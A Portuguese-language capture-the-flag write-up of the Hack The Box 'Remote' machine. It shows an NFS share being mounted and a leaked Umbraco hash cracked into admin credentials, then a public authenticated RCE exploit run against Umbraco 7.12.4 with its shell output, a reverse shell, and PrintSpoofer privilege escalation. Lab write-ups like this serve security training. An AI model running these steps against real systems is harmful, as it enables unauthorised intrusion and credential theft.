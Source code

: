 # Writeup remote

## Scan

```bash
# Nmap 7.92 scan initiated Sun Jan 23 21:23:00 2022 as: nmap -sV --open -v -T5 -p- -Pn -oN fullnmap.txt 10.129.95.194
Nmap scan report for 10.129.95.194
Host is up (0.15s latency).
Not shown: 65528 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
49666/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 23 21:28:17 2022 -- 1 IP address (1 host up) scanned in 317.10 seconds
```

## Enumeration

Tendo feito o scan, podemos começar a enumerar o host. Apoś enumerar o smb, rpc e ftp e nenhum deles terem apresentado algo de útil, foi a vez da enumeração com `showmount` e `rpcinfo` para enumerar a porta 2049.

Enumeração com rpcinfo para ver a versão nfs: `rpcinfo -p 10.129.221.250 | grep nfs`

Enumeração com showmount para ver o arquivo compartilhado: 

```
└─$ showmount -e 10.129.221.250                                                                                                                                                        130 ⨯
Export list for 10.129.221.250:
/site_backups (everyone)
```

Após criar um diretório e fazer o mount nele com `sudo mount -t nfs -o nfsvers=2 10.129.95.194:/site_backups remote2` podemos pesquisar por algum arquivo que armazena credenciais. Dando uma pesquisada, foi encontrado o link [Umbraco Database Connection Credentials - Stack Overflow](https://stackoverflow.com/questions/36979794/umbraco-database-connection-credentials) que nos mostra que um arquivo chamado "Umbraco.sdf" armazena algumas informações interessantes. 

Dando uma olhada nesse arquivo encontramos a seguinte string: 

> admin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"} 

Essa string possui um usuário: admin@htb.local e um hash sha1"b8be16afba8c314ad33d812f22a04991b90e2aaa". Após armazenar essa hash em um arquivo e quebrar usando o john, obtemos sua senha: `baconandcheese`.

**Credenciais de acesso:** 

```
admin@htb.local:baconandcheese
```

Após termos as credenciais de acesso, podemos ver a versão do CMS Umbraco que está rodando: "Umbraco version 7.12.4"

Após uma pesquisada, conseguimos encontrar que essa versão possui um Auth RCE e também foi encontrado o seguinte exploit pra bind rce: [GitHub - Jonoans/Umbraco-RCE: Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://github.com/Jonoans/Umbraco-RCE)

## Exploitation

Tendo encontrado o exploit, podemos usá-lo para pegar uma blind shell no host.

```
└─$ python3 exploit.py -u admin@htb.local -p baconandcheese -w http://10.129.221.250/ -i 10.10.14.73
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.129.221.250 on port 49685
[+] Trying to bind to :: on port 4445: Done
[+] Waiting for connections on :::4445: Got connection from ::ffff:10.129.221.250 on port 49686
[*] Switching to interactive mode
PS C:\windows\system32\inetsrv>  
```

Com a nossa bind shell no host, podemos usar o site do reverse shell generator e pegar uma reverse shell pra powershell encodado em b64 e executar na nossa bind shell, apó isso teremos uma shell interativa e podemos pegar a user flag.

**User Flag:**

```
PS C:\Users\Public> type user.txt
b1d187c0b1d1649fd0c9fd309d339d7c
```

## Privilege Escalation

Tendo acesso a máquina podemos ver o privilégio do nosso usuário com `whoami /priv` 

```
PS C:\Users\Public> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Users\Public>
```

Podmos ver que o privilégio "SeImpersonatePrivilege" está habilitado, o que nos permite fazer atques de impersonate. Para isso podemos usar o printspoofer para explorar a máquina e pegar uma reverse shell com privilégio total e depois pegar a flag.

**Root flag:**

```
PS C:\Users\Administrator\Desktop> type root.txt
9567aba1a3d3719da4dbbdd5533d7fb1
```

